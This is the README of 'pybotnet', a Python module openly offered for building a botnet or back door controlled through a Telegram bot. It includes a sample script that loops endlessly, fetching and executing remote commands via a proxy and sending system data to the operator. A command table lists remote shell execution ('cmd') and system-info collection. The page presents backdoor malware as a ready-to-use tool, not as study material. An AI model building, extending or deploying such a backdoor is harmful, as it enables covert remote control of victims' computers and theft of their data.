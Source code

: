 # pybotnet  0.08

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* send target info 

for more features see command list ↓
 


### Requirements:

* Python 3.6 or higher.
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | DO THIS | Minimum version required |
--------|---------|--------------------------|
do_sleep \<scconds> \<message | (Optional)> |  \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | return system info | 0.06 |
cmd \<system command> | run system command in shell or cmd (Be careful not to give endless command)| 007 |

